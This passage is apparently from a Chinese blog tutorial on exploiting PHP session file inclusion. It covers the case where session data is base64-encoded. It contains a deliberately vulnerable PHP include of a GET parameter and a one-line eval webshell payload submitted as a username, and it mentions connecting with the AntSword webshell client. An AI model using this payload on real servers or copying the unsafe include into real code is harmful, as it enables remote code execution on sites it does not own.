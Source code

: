 
发现成功执行了 getshell 了 蚁剑链接看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/e19f510aee48202a91ec57b1cf8b9843.png" alt="" style="max-height:640px; box-sizing:content-box;" />


以上是最最最最理想化的session文件包含了

现在我们来探讨一下文件包含的限制

### session文件包含限制

一般会对session进行加密传递 或者 服务器中根本不出现 session_start这种设置

这样我们就无法生成session 自然无法实现本地文件包含

下面开始进行

### SessionBase64Encode

首先是对session进行base64加密

session.php

```php
<?php
    session_start();
    $username=$_POST['username'];
    $_SESSION["username"] = base64_encode($username);
    echo "username -> $usernmae"
?>
```

index.php

```php
<?php
 
    $file  = $_GET['file'];
    include($file);
 
?>
```

然后我们开始进行正常的操作

```php
usernmae=<?php eval($_REQUEST[1]);?>
```

然后去访问sess文件



<img src="https://i-blog.csdnimg.cn/blog_migrate/f70af8788decfed54331cedc0e6e68cc.png" alt="" style="max-height:171px; box-sizing:content-box;" />


发现了 base加密 我们看看能不能直接通过 过滤器解密

